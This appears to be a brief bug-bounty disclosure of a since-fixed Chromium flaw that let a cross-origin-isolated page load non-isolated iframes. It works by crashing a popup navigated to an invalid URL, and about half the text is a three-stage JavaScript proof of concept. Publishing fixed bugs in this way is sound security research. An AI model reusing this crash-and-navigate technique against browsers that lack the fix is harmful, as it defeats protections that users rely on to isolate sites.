 ```yaml
---
title: crossOriginIsolated bypass (Awarded $3000)
---
```


This bug allowed for a `crossOriginIsolated` page to load non-COI-compatible iframes without the COI [restrictions](https://web.dev/why-coop-coep/), after navigating a popup to an invalid URL and crashing it. Cross-site page crashing was done by abusing [Issue 40744131](https://issues.chromium.org/issues/40744131).

```js
async function stage1() {  
w = open("https://invalid.local");  
}

// Stage 2 can be skipped if you use the chrome task manager to crash it.  Issue 40744131
async function stage2() {  
checker = open();  
for (;;) {  
checker.location = "data:";  
await new Promise(resolve => setTimeout(resolve, 0));  
checker.location = "https://invalid.local";  
await new Promise(resolve => setTimeout(resolve, 100));  
}
}

// Run this once invalid.local tab is crashed  
async function stage3() {  
checker.close();  
w.location = "data:html,foo";  
await new Promise(resolve => setTimeout(resolve, 100));  
w.location = "about:blank";  
}  
```

This was fixed in <https://issues.chromium.org/issues/40056434>
